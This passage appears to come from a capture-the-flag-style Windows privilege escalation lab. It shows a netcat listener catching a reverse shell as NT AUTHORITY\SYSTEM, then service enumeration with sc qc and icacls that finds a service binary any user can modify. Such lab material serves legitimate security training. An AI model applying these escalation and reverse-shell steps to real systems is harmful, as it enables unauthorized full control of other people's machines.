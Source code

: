 And we will receive a shell back in our attacker's machine with SYSTEM privileges:

```
user@attackerpc$ nc -lvp 4447
Listening on 0.0.0.0 4447
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM


```

Go to the Administrator's desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

```
C:\Users\thm-unpriv>sc qc apphostsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: apphostsvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Application Host Helper Service
        DEPENDENCIES       :
        SERVICE_START_NAME : localSystem

C:\Users\thm-unpriv>sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr1

C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

C:\Users\thm-unpriv>ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\thm-unpriv>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362
```